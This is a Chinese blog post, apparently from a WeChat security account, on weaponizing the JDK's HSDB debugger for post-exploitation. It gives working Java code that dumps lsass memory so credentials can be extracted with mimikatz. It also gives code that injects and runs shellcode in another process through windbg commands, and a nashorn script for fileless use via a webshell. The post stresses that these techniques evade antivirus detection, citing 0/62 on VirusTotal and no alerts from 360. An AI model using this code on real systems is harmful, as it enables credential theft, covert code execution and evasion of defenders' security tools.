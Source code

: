 #  JVM HSDB在后渗透中的利用

原创 yzddMr6 [ 网络安全回收站 ](javascript:void\(0\);)

**网络安全回收站** ![]()

微信号 gh_cd24c9599f5f

功能介绍 这里是yzddmr6的公众号，博客的移动端版本，存放本人写的一些垃圾文章。

____

___发表于_

收录于合集

## 背景

HSDB（Hotspot Debugger)，是JDK自带的调试工具，可用于调试JVM 运行时数据。
最近在学习Beichen师傅《JVM核心对抗》PPT的时候，注意到提到了HSDB的一个玩法：利用其中的windbg调试接口进行dump
lsass以及加载Shellcode操作，本文进行学习以及一些武器化利用扩展。

## dump lsass

>
> lsass是windows中处理本地安全和登录策略的重要进程，几乎所有的windows身份认证程序都离不开lsass进程。因此在lsass的内存中会保存用户相关的凭证。它是windows主机中凭证的重要组成部分，因此获取lsass内存也是MITRE
> ATT&CK框架中Credential Access战术下的重要技术点。

由于许多带签名的正常程序都需要用到内存dump功能，让用户能查看进程在内存中的信息，所以以往的对抗主要是通过一些常见的白进程签名程序，利用程序的正常功能来获取windows
lsass中的内存。不过由于用得太多了，基本都已经被各大杀软所监控标记。今天的HSDB属于一个新的小众白名单利用。
核心原理是JVM在调试进程的时候，会调用windbg接口，并且支持输入自定义的windbg语句，从而实现dump lsass 具体代码

    
          1. public static void dumper(int pid, String path) {
    
      2.       WindbgDebuggerLocal debuggerLocal = new WindbgDebuggerLocal(new MachineDescriptionAMD64(), false);
    
      3.       debuggerLocal.attach(pid);
    
      4.       System.out.println(debuggerLocal.consoleExecuteCommand(".dump /ma " + path));
    
      5.       debuggerLocal.detach();
    
      6.   }
    
    
    

打包个jar运行，发现已经成功dump了lsass![]()然后用mimikatz dump出其中的凭证![]()VT
0/62![]()免杀360无告警![]()

为了对比测试，继续跑一下已经公开过的白利用。360告警拦截，dump提示拒绝访问。![]()![]()

## 加载ShellCode

windbg是一款很强大的调试工具，我们还可以利用该接口进行ShellCode的加载。基本流程：

  * 申请内存

  * 写入Shellcode

  * 修改当前运行指针到Shellcode位置

Beichen师傅的PPT里没有贴写入Shellcode的实现代码，这里其实有很多种方式，我这里采用eb命令实现。其实用Unsafe也可以，但是Unsafe特征比较明显。
核心代码

    
          1. public static void Runshellcode(int pid, String shellcode) {
    
      2.       WindbgDebuggerLocal debuggerLocal = new WindbgDebuggerLocal(new MachineDescriptionAMD64(), false);
    
      3.       debuggerLocal.attach(pid);
    
      4.       System.out.println(shellcode.length());
    
      5.       String result = debuggerLocal.consoleExecuteCommand(".dvalloc 10000");
    
      6.       String addressToken = "starting at ";
    
      7.       System.out.println(result);
    
      8.       int index = result.indexOf(addressToken);
    
      9.       String address = result.substring(index + addressToken.length()).trim();
    
      10.       String s1 = debuggerLocal.consoleExecuteCommand("eb " + address + " " + hexFormat(shellcode));
    
      11.       System.out.println(s1);
    
      12.       String s2 = debuggerLocal.consoleExecuteCommand("r @$ip=" + address);
    
      13.       System.out.println(s2);
    
      14.       debuggerLocal.detach();
    
      15.   }
    
    
    

![]()同样秒过3xx。

![]()当然这里只是注入方式不被查杀，如果是cs或者msf还要改一下内存特征。

## 可能遇到的报错

必须是JDK下的jre运行才可以，否则可能会产生以下报错![]()解决办法：复制jdk下的dll到对应目录下![]()https://blog.csdn.net/fl_zxf/article/details/42689569

## 单文件执行

不同版本的sa-jdi可能不一样，如果选择jar方式的话要打包跟目标JDK环境一致的依赖，这样有点麻烦。 除了打一个jar包以外，还可以单文件执行

    
          1. java -cp ".;c:\\xxxxx\\sa-jdi.jar" Exp
    
    
    

## As-Exploits无文件利用

想要在WebShell中利用需要满足两点：

  1. 加载sa-jdi.jar到ClassLoader

  2. 加载调用逻辑

对于第一点，sa-jdi.jar在JDK中默认存在，不需要额外上传，只需要用JarLoader功能加载一下就可以了 第二点，在As-Exploits
1.5中新增了JS引擎执行模块，这里我采用了JS引擎来实现功能的调用。（当然写个Class编译然后再defineClass加载也可以，稍微有点麻烦）
将payload改写为nashorn语法，跑一下看起来没问题![]()

    
          1. var windbg = Java.type("sun.jvm.hotspot.debugger.windbg.WindbgDebuggerLocal");
    
      2. var desc = Java.type("sun.jvm.hotspot.debugger.MachineDescriptionAMD64");
    
      3. var debuggerLocal = new windbg(new desc(), false);
    
      4. debuggerLocal.attach(784);
    
      5. java.lang.System.out.println(
    
      6.   debuggerLocal.consoleExecuteCommand(".dump /ma ./dsds")
    
      7. );
    
      8. debuggerLocal.detach();
    
    
    

具体操作：![]()![]()到目录界面看，dump文件已经生成了![]()

  

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


